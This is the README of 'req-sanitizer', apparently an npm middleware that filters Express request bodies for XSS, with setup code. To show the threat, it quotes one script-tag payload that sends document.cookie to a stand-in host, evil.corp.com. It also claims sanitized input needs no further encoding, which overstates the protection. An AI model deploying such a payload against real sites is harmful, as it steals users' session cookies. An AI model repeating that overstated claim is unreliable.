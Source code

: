 [![Pull requests](https://img.shields.io/badge/PRs-Welcome-brightgreen.svg)](https://github.com/peerquery/req-sanitizer/pulls)
[![Build status](https://travis-ci.org/peerquery/req-sanitizer.svg?branch=master)](https://travis-ci.org/peerquery/req-sanitizer)
[![Dep tracker](https://david-dm.org/peerquery/req-sanitizer.svg)](https://david-dm.org/peerquery/req-sanitizer)
[![Codebase license](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/peerquery/req-sanitizer/blob/master/LICENSE)

# req-sanitizer

`Node.js` middleware to sanitize the `req.body` object and all its values against XSS.

## What this module does

When configured right, this module sanitizes the `req.body` of HTML XSS on all requests with just one line of code! You can now safely processes, store and render the values without the need to re-sanitize them.

This module is built on the blazingly fast and secure [XSS Filters](https://www.npmjs.com/package/xss-filters) library by [Yahoo](https://yahoo.github.io/secure-handlebars/xssfilters.html)!

## Warning!?

This module does not sanitize against `operator` injection for Mongo DB or any other DB. If you are using Mongo DB, consider including [Express Mongoose Sanitize](https://www.npmjs.com/package/express-mongo-sanitize) for projection against `operator injection`.

## Installation

```
npm install --save req-sanitizer
```

## Usage

```javascript

var reqSanitizer = require('req-sanitizer');
Mount the middleware below the bodyParser() instantiations and above mounting of your routes

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(reqSanitizer()); // this line follows bodyParser() instantiations

```

**One liner**

```javascript

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(require('req-sanitizer')()); // this line follows bodyParser() instantiations

```

### That is all!

All your `req.body` values are sanitized against XSS! You can stored them directly in the DB and display them directly on HTML without the need to sanitize them again.

All input from your APIs and POST methods are sanitized. However remember you still need to sanitize for the DB. At Peer Query we use [express-mongo-sanitize](https://npm.js.com/package/express-mongo-sanitize).


## Sanitization is hard!

Did you know that you need to sanitize your content twice? One for the DB and one for HTML. Did you also know that validating does not make your data secure? Validating data type would see this script get through:

`'<script>location.href='http://evil.corp.com?cookie='+document.cookie;</script>'`

That is a valid string. Lets say that is what someone entered into the name input field on your site's contact form. And you assumed that only the message `body` could contain XSS so you sanitized only that field!

When you rendered this user's info on your site, the above script would run! At the same time, let say you tried to individually sanitize all fields with a custom `sanitize()` module:

```javascript
var messageData = {
    name : sanitize(req.body.name),
    email : sanitize(req.body.email),
    message : sanitize(req.body.message),
    time : sanitize(req.body.time)
};

messageController.addMessage(req,res,messageData);
```

This would be too much bloat, without even mentioning that you would have to repeat this configuration for every single controller and API! What happens when you miss one of those fields? You are a toast. Save yourself hassle and automate this entire hassle with this module.

## Sanitization is required multiples times

Mongoose and MYSQL have their own sanitizing schemes, however implementing that does not make your content secure. For a secure system you need to sanitize all input into your DB.

Sanitizing is a must for all secure web apps. Unfortunately, for Node.js there has been very scanty **accurate** information on the topic. A lots of Node.js sanitization libraries are either outdated or no longer maintained. In the mean while, most sanitization efforts focus on sanitizing only a single object, such data from a certain endpoint, DB or API.

Read this detailed post to get the full concept as well as the severity of the issue: [5 Steps to Handling Untrusted Node.js Data](https://lockmedown.com/5-steps-handling-untrusted-node-js-data/)

## Contribution is welcome.

I was inspired to build it after finding out that there was virtually no plug-and-play middleware for `Node.js` to sanitize the `req.body`. 
